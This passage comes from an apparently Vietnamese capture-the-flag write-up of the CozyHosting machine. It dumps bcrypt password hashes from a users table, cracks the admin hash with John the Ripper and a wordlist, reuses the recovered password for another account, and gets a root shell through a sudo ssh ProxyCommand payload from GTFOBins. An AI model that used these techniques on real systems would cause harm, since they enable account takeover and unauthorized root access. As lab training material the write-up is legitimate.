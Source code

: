 Dump bảng users

```bash
	 name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

Để giải quyết đống hash này, tui sẽ dùng John-The-Ripper

```bash
┌──(root㉿kali)-[/home/kali]
└─# john hash --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)
1g 0:00:00:18 DONE (2024-01-25 04:43) 0.05305g/s 148.9p/s 148.9c/s 148.9C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Liệu josh với admin có phải là một?

![CozyHosting](/posts/CozyHosting/Untitled%2015.png)

Josh pwned!

### Root

![CozyHosting](/posts/CozyHosting/Untitled%2016.png)

Payload từ GTFobins: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![CozyHosting](/posts/CozyHosting/Untitled%2017.png)
